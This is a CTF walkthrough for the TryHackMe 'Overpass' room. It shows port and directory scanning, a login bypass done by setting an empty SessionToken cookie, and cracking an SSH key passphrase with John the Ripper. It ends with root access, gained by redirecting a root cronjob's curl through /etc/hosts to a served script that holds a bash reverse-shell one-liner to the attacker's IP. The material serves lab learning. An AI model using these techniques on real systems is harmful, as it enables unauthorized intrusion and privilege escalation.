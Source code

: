 # [Overpass TryHackMe Writeup/Walkthrough][1]

What happens when some broke CompSci students make a password manager?

Obviously a *perfect* commercial success!

#### Scan the machine.
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Open Ports](images/open_ports.jpg)

Looks like we have two ports open: `22, 80`

Let's check the website.

![Website](images/website.jpg)

Downloads Page:

![Downlaods Page](images/download.jpg)
> You can download the source code from here and analyze it.

Next Step, Subdomains Finder! I am using **gobuster**.

`gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt`

![GoBuster Result](images/gobuster.jpg)
> The interesting one here is `/admin`.

![Admin Page](images/admin_page.jpg)

I found a login page. Let's check the source code for the admin page.

![Source Code](images/source_code.jpg)

Found three scripts here:
- main.js
- login.js
- cookie.js

Seems like *login.js* gets the responses and check for the word, `Incorrect Credentials`. If its is not present that means we have the access.

![Login.js](images/login_js.jpg)

So, we can set cookies automatically in the Browser or use BurpSuite do it.

###### With BurpSuite:
- Intercept the request.
- Right click > Do Show response.
- Forward, Forward.... till you get the response.
- Backspace *incorrect credentials* and forward the response.

##### In Browser (FireFox):
- Right Click > Inspect Element.
- Go to Storage. Add the cookie with name `SessionToken` and no value.
- Save it and reload the page.

> BAAM! We are logged in.

We have a username, `james` and a SSH Key to login.

![SSH Key](images/ssh_key.jpg)

Copy the SSH Key and save it in a file. You can name the file anything. I named is `id_rsa` (generally used name).

Before connecting, we need to change the permissions for the key -> `chmod 600 id_rsa`

When I tried to connect, a passphrase was required. Let's use *JohnTheRipper*, to crack the password.

First we need to convert the file into Hash. To do that -> `ssh2john id_rsa > hash`

![John Start](images/john_start.jpg)

Now we can provide `rockyou.txt` as a wordlist to crack this HASH.

![Got Start](images/got_pass.jpg)
> We got the password.

I logged in with the credentials, `username:james` and `password:GOT FROM JOHN`

![Got Connection](images/got_connection.jpg)

We got the `user flag`.

![User Flag](images/user_flag.jpg)

While looking through, I found a `TODO` list.

![TODO Content](images/todo.jpg)
> Whats' interesting here is the last task. Looks like Script Automation aka a cronjob.

So, let's have look for this `cronjobs`. The file is stored in `/etc/crontab`.

![Content of Cronjobs](images/crontab.jpg)
> There is a curl command which gets a bash file from a remote server and passes the content to bash command as ROOT.

Let's first create a folder `downloads` and subfolder `src` using command -> `mkdir -p downloads/src` and a file named `buildscript.sh` in our local machine. Add the bash one liear for reverse shell to it -> `bash -i >& /dev/tcp/<YOUR IP>/4444 0>&1`. Also start a server using python -> `python3 -m http.server 80`.

![File Content](images/create_file.jpg)
> What we have done here is created a URL. Like `http://<OUR_IP>/downloads/src/buildscript.sh`. Same as what curl is requesting for!

Fireup another terminal and start a netcat listener -> `nc -lvnp 4444`
> We are done with the work on our machine. Let's jump back to the target machine.

The `overpass.thm` part can be replace with our IP using the HOSTS file on the target machine. As the system first looks for the DNS Query at our local machine.
> To know more about HOST files and how it works, [Check this link][3].

HOSTS file on Linux is stored at `/etc/hosts`. Open the file, change the IP of `overpass.thm` to your IP.

![Change HOST](images/change_hosts.jpg)
> Wait for a while, it may take sometime.

In few minutes or so, you will get a reverse connection from the target machine.

![Got Access](images/got_root_access.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Root Flag](images/root_flag.jpg)


[1]: https://tryhackme.com/room/overpass
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://blog.hackhunt.in/2020/12/block-access-to-websites-for-your-pc.html
